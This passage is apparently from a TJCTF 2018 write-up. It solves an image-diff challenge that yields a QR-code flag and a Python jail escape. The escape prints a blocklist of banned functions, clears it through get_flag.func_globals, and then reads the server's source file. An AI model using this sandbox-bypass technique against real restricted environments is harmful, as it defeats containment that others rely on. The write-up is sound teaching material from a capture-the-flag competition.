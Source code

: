 The zip file contains two png images with the same dimension.


{{< figure src="/blog/tjctf-2018-writeup/Interference/v1.png" caption="v1.png">}}

{{< figure src="/blog/tjctf-2018-writeup/Interference/v2.png" caption="v2.png">}}

By comparing each pixel using imagemagick, we get a new image which is a QR code:

```
> compare v1.png v2.png diff.png
```

{{< figure src="/blog/tjctf-2018-writeup/Interference/diff.png" caption="diff.png">}}

After decoding the QR code, you get the flag.

Flag: `tjctf{m1x1ing_and_m4tchIng_1m4g3s_15_fun}`

# Mirror Mirror - Miscellaneous

## Problem

Written by Alaska47

If you look closely, you can see a reflection.

`nc problem1.tjctf.org 8004`

## Solution

This is a python jail escape problem similar to [this](https://lbarman.ch/blog/pyjail/).

By overriding `bad` and `banned` in the `get_flag` function, we can print out the source code of the challenge:

```python
>>> dir(get_flag)
['__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__', '__dict__', '__doc__', '__format__', '__get__', '__getattribute__', '__globals__', '__hash__', '__init__', '__module__', '__name__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'func_closure', 'func_code', 'func_defaults', 'func_dict', 'func_doc', 'func_globals', 'func_name']
>>> get_flag.func_globals
{'PseudoFile': <class '__main__.PseudoFile'>, 'code': <module 'code' from '/usr/lib/python2.7/code.pyc'>, 'bad': ['__class__', '__base__', '__subclasses__', '_module', 'open', 'eval', 'execfile', 'exec', 'type', 'lambda', 'getattr', 'setattr', '__', 'file', 'reload', 'compile', 'builtins', 'os', 'sys', 'system', 'vars', 'getattr', 'setattr', 'delattr', 'input', 'raw_input', 'help', 'open', 'memoryview', 'eval', 'exec', 'execfile', 'super', 'file', 'reload', 'repr', 'staticmethod', 'property', 'intern', 'coerce', 'buffer', 'apply'], '__builtins__': <module '?' (built-in)>, '__file__': '/home/app/problem.py', 'execfile': <built-in function execfile>, '__package__': None, 'sys': <module 'sys' (built-in)>, 'getattr': <built-in function getattr>, 'Shell': <class __main__.Shell at 0x7f0b20f79c80>, 'banned': ['vars', 'getattr', 'setattr', 'delattr', 'input', 'raw_input', 'help', 'open', 'memoryview', 'eval', 'exec', 'execfile', 'super', 'file', 'reload', 'repr', 'staticmethod', 'property', 'intern', 'coerce', 'buffer', 'apply'], 'InteractiveConsole': <class code.InteractiveConsole at 0x7f0b20f79c18>, 'eval': <built-in function eval>, 'get_flag': <function get_flag at 0x7f0b20f898c0>, '__name__': '__main__', 'main': <function main at 0x7f0b20f9c410>, '__doc__': None, 'print_function': _Feature((2, 6, 0, 'alpha', 2), (3, 0, 0, 'alpha', 0), 65536)}
>>> get_flag.func_globals['bad'] = []
>>> get_flag.func_globals['banned'] = []
>>> open('/home/app/problem.py').read()
...
```
